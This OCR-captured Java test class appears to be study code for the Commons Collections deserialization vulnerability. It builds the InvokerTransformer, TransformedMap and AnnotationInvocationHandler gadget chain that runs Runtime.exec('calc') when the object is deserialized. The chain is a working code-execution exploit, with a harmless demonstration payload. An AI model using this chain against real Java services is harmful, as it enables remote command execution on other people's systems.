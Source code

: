 ```
    
    @Test
    
    public void 
        invokeExec() throws Exception {
        
        //Runtime.getRuntime().exec("calc");
        
        InvokerTransformer invokerTransformer = new InvokerTransformer(
            "exec",
            new Class[]{String.class},                
            new Object[]{"calc"}
        );
        
        //invokerTransformer.transform(Runtime.getRuntime());
        //Map decorated = TransformedMap.decorate(null,null, invokerTransformer);
        //TransformedMap.checkSetValue();
        
        HashMap<Object, Object> map = 
        new HashMap<>();
        map.put("a", "b");
        Map<Object, Object> decorated = TransformedMap.decorate(map, null, invokerTransformer);
        
        for (Map.Entry<Object, Object> entry : decorated.entrySet()) {
            entry.setValue(Runtime.getRuntime());
        }
    }
    
    @Test
    
    public void invokeExec1() throws Exception {
        InvokerTransformer invokerTransformer = new InvokerTransformer(
            "exec",
            new Class[]{String.class},
            new Object[]{"calc"}
        );
        HashMap<Object, Object> map = new HashMap<>();
        map.put("value", "null");
        Map<Object, Object> decorated = TransformedMap.decorate(map, null, invokerTransformer);
        Class<?> clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = clazz.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        Object o = constructor.newInstance(Target.class, decorated);
        CC.serialize(o);
        CC.unserialize("ser.bin");
    }
    
    @Test
    public void test() throws IOException{
        AnnotationType annotationType = AnnotationType.getInstance(Target.class);
        Map<String, Class<?>> memberTypes = annotationType.memberTypes();
        for (Map.Entry<String, Class<?>> entry : memberTypes.entrySet()) {
            System.out.println(entry);
        }
    }
}
```  
  